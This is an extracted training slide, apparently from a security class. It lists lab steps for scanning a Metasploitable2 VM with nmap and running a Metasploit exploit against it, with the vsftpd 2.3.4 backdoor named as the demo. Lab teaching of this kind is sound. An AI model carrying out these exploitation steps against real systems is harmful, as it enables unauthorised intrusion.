

# Basic commands that can get you in trouble
Step 1 : Start up metasploitable2 & login (if you do not have this please let me know)
Once logged in, use ifconfig or ip addr show | grep eth0 | grep inet | awk ‘{print $2}’ to get the ip
On your Kali/Parrot VM (vsftpd 2.3.4 demo)
nmap the ip
sudo msfconsole to start metasploit
search <insert exploit>
copy path to exploit
use <exploit path>
show info
set RHOSTS <IP of metasploitable>
run